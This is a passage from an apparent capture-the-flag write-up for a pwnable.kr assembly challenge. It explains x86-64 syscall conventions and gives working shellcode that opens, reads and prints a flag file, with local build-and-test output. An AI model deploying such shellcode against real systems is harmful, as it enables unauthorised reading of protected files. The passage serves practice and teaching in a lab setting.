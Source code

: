 We need to do this in assembly, though. For this we'll need to keep a few things in mind:

1. We can always compile C to assembly with `$ gcc -S <file.c> -o <file>`, in case we need help with something.
2. Our calling convention, `System V`, in which arguments are stored in the `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`, `xmm0`–`xmm7` registers, in this order, and return values are stored in `rax`.
3. The syscall codes for read, write and open:

| call  | asm                      |
|-------|--------------------------|
| read  | movq $0, %rax<br>syscall |
| write | movq $1, %rax<br>syscall |
| open  | movq $2, %rax<br>syscall |

```asm
.section .data
    name: .string "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"

.section .text
.global _start
_start:
    movq %rsp, %rbp  # storing initial stack pointer
    movq $100, %rbx  # store size
    subq %rbx, %rsp  # allocate size bytes

    leaq name(%rip), %rdi  # first argument (name)
    movl $0, %esi  # second argument (O_RDONLY)
    movq $2, %rax  # open syscall code
    syscall

    movl %eax, %edi  # first argument (return from open)
    leaq -100(%rbp), %rsi  # second argument (buffer address)
    movl %ebx, %edx  # third argument (size)
    movq $0, %rax  # read syscall code
    syscall

    movl $1, %edi  # first argument (stdout descriptor)
    leaq -100(%rbp), %rsi  # second argument (buffer address)
    movl %ebx, %edx  # third argument (size)
    movq $1, %rax  # write syscall code
    syscall
```

We can now assemble, link and test:

```bash
$ as shell.s -o shell.o
$ ld shell.o -o shell
$ echo "flag" > this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
$ ./shell
flag
[1]    30850 segmentation fault (core dumped)  ./shell
```
